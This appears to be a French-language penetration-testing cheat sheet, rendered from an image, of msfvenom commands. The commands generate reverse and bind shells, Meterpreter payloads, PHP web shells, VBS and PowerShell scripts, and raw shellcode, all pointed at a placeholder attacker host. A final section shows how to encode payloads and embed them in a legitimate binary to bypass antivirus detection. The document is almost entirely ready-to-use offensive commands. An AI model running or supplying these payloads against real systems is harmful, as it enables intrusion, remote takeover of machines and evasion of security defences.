 ## 💾 Génération de Payloads avec MSFvenom

### Types de Payloads
```bash
# 1. Reverse Shell (recommandé)
# La victime se connecte à nous
msfvenom -p linux/x64/shell_reverse_tcp LHOST=attacker_ip LPORT=4444 -f elf > reverse_shell

# 2. Bind Shell
# On se connecte à la victime
msfvenom -p linux/x64/shell_bind_tcp LPORT=4444 -f elf > bind_shell

# 3. Meterpreter (plus de fonctionnalités)
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=attacker_ip LPORT=4444 -f elf > meterpreter

# 4. Windows Payloads
msfvenom -p windows/x64/shell_reverse_tcp LHOST=attacker_ip LPORT=4444 -f exe > shell.exe
```

### Formats de Payload
```bash
# Selon le contexte d'exploitation :

# 1. Executable binaire
msfvenom -p linux/x64/shell_reverse_tcp LHOST=attacker_ip LPORT=4444 -f elf

# 2. Shellcode brut (pour buffer overflow)
msfvenom -p linux/x64/shell_reverse_tcp LHOST=attacker_ip LPORT=4444 -f python

# 3. Web shell (PHP, ASP, JSP)
msfvenom -p php/meterpreter_reverse_tcp LHOST=attacker_ip LPORT=4444 -f raw > shell.php

# 4. Script (VBS, PowerShell)
msfvenom -p windows/x64/shell_reverse_tcp LHOST=attacker_ip LPORT=4444 -f vbs > shell.vbs
```

### Encodage pour Bypass AV
```bash
# 1. Encoder pour éviter la détection
msfvenom -p windows/x64/shell_reverse_tcp LHOST=attacker_ip LPORT=4444 -f exe -e x86/shikata_ga_nai -i 3 > encoded_shell.exe

# 2. Multiples encodages
msfvenom -p windows/shell_reverse_tcp LHOST=attacker_ip LPORT=4444 -f exe -e x86/shikata_ga_nai -i 5 -x /usr/share/windows-binaries/plink.exe > shell.exe

# 3. Formats moins détectés
msfvenom -p windows/x64/shell_reverse_tcp LHOST=attacker_ip LPORT=4444 -f psh-reflection > shell.ps1
```
